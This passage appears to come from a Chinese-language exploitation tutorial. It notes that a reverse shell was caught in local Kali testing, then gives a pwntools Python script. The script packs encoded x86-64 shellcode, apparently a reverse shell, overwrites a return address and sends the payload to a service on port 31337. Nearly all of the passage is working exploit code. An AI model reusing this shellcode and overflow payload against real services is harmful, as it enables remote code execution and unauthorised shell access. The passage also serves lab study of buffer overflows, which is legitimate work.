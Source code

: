 > kali本地测试中能监听到反弹

#### 3.8 编写python脚本

要安装python中的pwn包。[参考](https://blog.csdn.net/qq_52553510/article/details/122475088)

```plain
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("127.0.0.1", 31337)
r.recv()
r.send(payload)
print("ok")
```
